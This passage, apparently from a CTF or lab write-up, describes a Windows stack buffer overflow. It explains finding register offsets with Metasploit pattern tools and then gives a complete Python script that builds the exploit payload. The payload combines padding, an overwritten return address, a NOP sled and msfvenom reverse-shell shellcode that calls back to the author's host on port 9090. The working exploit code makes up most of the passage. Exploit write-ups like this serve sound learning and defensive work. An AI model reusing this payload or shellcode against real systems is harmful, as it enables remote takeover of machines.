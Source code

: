 After that, I used two of the Metasploit framework tools (respectively `./exploit/pattern_create.rb` and `./exploit/pattern_offset.rb`) in order to generate a distinguishable pattern and find the offsets at which the registers were being overwritten.
Finally, I used `msfvenom` to generate a suitable shellcode, containing the instructions needed to bind a reverse shell to my host.

I was thus able to craft a small Python script, in order to reliably generate the payload and to avoid accidental errors.

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

BEFORE_EIP = 524
BEFORE_ESP = 528 # Actually, this is unused because the GAP is filled with the EIP address.

EIP_REVERSED_ADDRESS = b"\xf3\x12\x17\x31" # From the winkwink function, to replace EIP

#  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.126 LPORT=9090 -f python -b "\x00" -a x86 --platform Windows
SHELL_CODE = b"\xdb\xc2\xd9\x74\x24\xf4\xba\xb4\x35\xd8\xf4\x5e\x29"
SHELL_CODE += b"\xc9\xb1\x52\x31\x56\x17\x83\xee\xfc\x03\xe2\x26\x3a"
SHELL_CODE += b"\x01\xf6\xa1\x38\xea\x06\x32\x5d\x62\xe3\x03\x5d\x10"
SHELL_CODE += b"\x60\x33\x6d\x52\x24\xb8\x06\x36\xdc\x4b\x6a\x9f\xd3"
SHELL_CODE += b"\xfc\xc1\xf9\xda\xfd\x7a\x39\x7d\x7e\x81\x6e\x5d\xbf"
SHELL_CODE += b"\x4a\x63\x9c\xf8\xb7\x8e\xcc\x51\xb3\x3d\xe0\xd6\x89"
SHELL_CODE += b"\xfd\x8b\xa5\x1c\x86\x68\x7d\x1e\xa7\x3f\xf5\x79\x67"
SHELL_CODE += b"\xbe\xda\xf1\x2e\xd8\x3f\x3f\xf8\x53\x8b\xcb\xfb\xb5"
SHELL_CODE += b"\xc5\x34\x57\xf8\xe9\xc6\xa9\x3d\xcd\x38\xdc\x37\x2d"
SHELL_CODE += b"\xc4\xe7\x8c\x4f\x12\x6d\x16\xf7\xd1\xd5\xf2\x09\x35"
SHELL_CODE += b"\x83\x71\x05\xf2\xc7\xdd\x0a\x05\x0b\x56\x36\x8e\xaa"
SHELL_CODE += b"\xb8\xbe\xd4\x88\x1c\x9a\x8f\xb1\x05\x46\x61\xcd\x55"
SHELL_CODE += b"\x29\xde\x6b\x1e\xc4\x0b\x06\x7d\x81\xf8\x2b\x7d\x51"
SHELL_CODE += b"\x97\x3c\x0e\x63\x38\x97\x98\xcf\xb1\x31\x5f\x2f\xe8"
SHELL_CODE += b"\x86\xcf\xce\x13\xf7\xc6\x14\x47\xa7\x70\xbc\xe8\x2c"
SHELL_CODE += b"\x80\x41\x3d\xe2\xd0\xed\xee\x43\x80\x4d\x5f\x2c\xca"
SHELL_CODE += b"\x41\x80\x4c\xf5\x8b\xa9\xe7\x0c\x5c\x16\x5f\x98\xe2"
SHELL_CODE += b"\xfe\xa2\xa4\x39\x7d\x2b\x42\x57\x91\x7a\xdd\xc0\x08"
SHELL_CODE += b"\x27\x95\x71\xd4\xfd\xd0\xb2\x5e\xf2\x25\x7c\x97\x7f"
SHELL_CODE += b"\x35\xe9\x57\xca\x67\xbc\x68\xe0\x0f\x22\xfa\x6f\xcf"
SHELL_CODE += b"\x2d\xe7\x27\x98\x7a\xd9\x31\x4c\x97\x40\xe8\x72\x6a"
SHELL_CODE += b"\x14\xd3\x36\xb1\xe5\xda\xb7\x34\x51\xf9\xa7\x80\x5a"
SHELL_CODE += b"\x45\x93\x5c\x0d\x13\x4d\x1b\xe7\xd5\x27\xf5\x54\xbc"
SHELL_CODE += b"\xaf\x80\x96\x7f\xa9\x8c\xf2\x09\x55\x3c\xab\x4f\x6a"
SHELL_CODE += b"\xf1\x3b\x58\x13\xef\xdb\xa7\xce\xab\xec\xed\x52\x9d"
SHELL_CODE += b"\x64\xa8\x07\x9f\xe8\x4b\xf2\xdc\x14\xc8\xf6\x9c\xe2"
SHELL_CODE += b"\xd0\x73\x98\xaf\x56\x68\xd0\xa0\x32\x8e\x47\xc0\x16"

payload = b"A" * BEFORE_EIP
payload += EIP_REVERSED_ADDRESS
payload += b"\x90" * 16
payload += SHELL_CODE

with open("payload", "wb") as payload_f:
    payload_f.write(payload)
    payload_f.flush()
{% endhighlight %}
